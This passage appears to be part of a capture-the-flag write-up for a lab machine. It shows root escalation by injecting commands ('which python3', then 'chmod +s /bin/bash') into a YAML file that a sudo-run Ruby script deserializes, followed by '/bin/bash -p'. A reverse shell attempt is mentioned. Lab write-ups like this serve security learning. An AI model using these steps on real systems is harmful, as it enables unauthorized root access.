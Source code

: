 now that we have arbirtary code execution using dependencies .yaml


to verify this again i changed the 

set id: which python 3


and i got this

henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
/usr/bin/python3



how created a python reverse shell using shellgen since it is working in python

┌──(root💀kali)-[~/Desktop/THM/shellgen]
└─# ./shellgen tun0 9001



well this was not working so checked writeup again

so it was pretty easy reverse shell was not working so we added suid bit to /bin/bash


set id: "chmod +s /bin/bash"



ran with sudo


verified suid bit using

cd /bin; ls -al | grep bash


escalated using

/bin/bash -p


and got the root shell



Here i learned to enumerate properly and b aware of the rabbit holes



